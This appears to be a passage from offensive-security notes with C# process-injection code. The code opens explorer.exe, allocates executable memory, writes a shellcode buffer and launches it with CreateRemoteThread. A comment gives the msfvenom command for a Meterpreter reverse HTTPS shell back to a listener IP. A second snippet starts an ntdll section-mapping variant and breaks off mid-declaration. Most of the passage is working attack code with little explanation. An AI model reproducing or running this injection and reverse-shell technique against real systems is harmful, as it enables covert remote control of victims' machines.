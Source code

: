 ```csharp
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            Process[] expProc = Process.GetProcessesByName("explorer");

            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

The native APIs `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfSection`, and `NtClose` in `ntdll.dll` can be used as alternatives to `VirtualAllocEx` and `WriteProcessMemory`.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ProcessInjection2
{
    class Program
    {
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

		[DllImport("kernel32.dll")]
		static extern IntPtr GetCurrentProcess();

		[DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
		static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, uint DesiredAccess, IntPtr ObjectAttributes,	ref uint MaximumSize, uint SectionPageProtection, uint AllocationAttributes, IntPtr FileHandle);

		[DllImport("ntdll.dll", SetLastError = true)]
		static extern uint NtMapViewOfSection(IntPtr SectionHandle,	IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits,	UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize,	uint InheritDisposition, uint AllocationType, uint Win32Protect);
	
```